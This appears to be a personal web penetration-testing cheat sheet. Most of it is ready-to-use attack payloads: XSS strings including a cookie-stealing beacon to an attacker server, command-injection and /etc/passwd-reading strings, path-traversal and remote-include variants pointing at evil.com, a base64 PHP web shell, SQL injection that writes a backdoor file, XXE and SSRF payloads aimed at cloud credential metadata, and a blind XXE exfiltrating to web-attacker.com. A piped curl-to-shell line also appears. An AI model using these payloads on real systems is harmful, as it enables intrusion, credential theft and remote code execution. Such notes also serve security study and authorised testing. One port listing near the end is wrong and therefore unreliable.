 awk -F '[]' '{}'
sed "s/8.8.8.8/1.1.1.1/g" testo > testo2
tcpdump icmp -vn

## Scan
nmap -p- -n -sV -sT -sU -Pn -T5  target

## XSS 
# Simple payload

<script>alert(document.cookie)</script>
<img src=error onerror='alert(document.cookie)'>
<body onload='alert(1)'>
" onload="javascript:alert(3)
" onload='alert(4)'

# Techniques
- Bypass httponly with TRACE
- Steal cookies: python -m SimpleHttpServer 8000, document.write('<img src="http://IP:8000/steal.php?q='+document.cookie+' ">');

## OS/code injection
``
;
&&, &
||
|/bin/ls -al
;system('/usr/bin/id')
<?php system("cat /etc/passwd");?>

## LFI/RFI
../../../../etc/passwd?
../../../../etc/passwd
../../../../../../var/www/dossierexistanthmm/../../../../../etc/passwd
....//....//etc/passwd
..///////..////..//////etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd

http://evil.com/shell.txt

.%252f..%252f..%252fetc%252fpasswd
..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
%252e%252e%252fetc%252fpasswd
%252e%252e%252fetc%252fpasswd%00

php://filter/read=string.rot13/resource=index.php
php://filter/convert.base64-encode/resource=index.php
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4= (NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>")
data://text/plain,<?php phpinfo(); ?>

## SQLi

# Detection :Error
'
"
`
')
")
`)
'))
"))
`))
# Detection :blind

a' and sleep(2); -- -
a' and 1=1, -- -

And = && 

# bypass auth 
OR 1=1 LIMIT 1; --

# union based exploitation

number of columns: 
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked

# Extract database names, table names and column names

SELECT table_name FROM information_schema.tables WHERE table_schema=database();#Get name of the tables
SELECT column_name FROM information_schema.columns WHERE table_name="<TABLE_NAME>"; #Get name of the columns of the table
SELECT <COLUMN1>,<COLUMN2> FROM <TABLE_NAME>; #Get values
SELECT user FROM mysql.user WHERE file_priv='Y'; #Users with file privileges


#Database names
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

#Tables of a database
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

#Column names
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]


union select 1,2,3,4,"<?php echo shell_exec(\$_GET['cmd']);?>",6 into outfile "c:/xampp/htdocs/backdoor.php"

# Exploiting Blind SQLi

https://defendtheweb.net/article/blind-sql-injection

How many tables: 
AND(SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())=2


1' and SUBSTR(user(),1,1) = 'a'
1' AND (SELECT SUBSTR(table_name,1,1) FROM information_schema.tables )='A'

# Exploiting Error Blind SQLi
AND (SELECT IF(1,(SELECT table_name FROM information_schema.tables),'a'))-- -


## XXE
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>


<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>

SSRF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

Blind
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;


## Xpath

## CSRF
Samesite: Allowed domain to send cookies from (browser protection)
CORS

## File upload 
pht, phpt, phtml, php3,php4,php5,php6.
Content type : image/png, image/jpeg, image/gif
https://github.com/epinna/weevely3
/usr/share/webshells
PNG header magic number
sleep(10)-- -.jpg
<svg onload=alert(document.comain)>
; sleep 10;


## Broken Authentication
- Politique de mot de passe/verouillage 
- Session fixation (user info as session ID)
- 2FA
- Session renew
- User enumeration : Error msg, time, behavior 
- Reset functionality: X-Forwarded-Host, validity after use

# Broken Access Control
- IDOR
- Incorrect redirection
- Restricted URL/function

# Security Misconfiguration
- Sample app
- Directory listing
- Stack trace, errors


## LPE
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh |

## Interview 

SQL 3306
mssql 1433
LDAP 1433
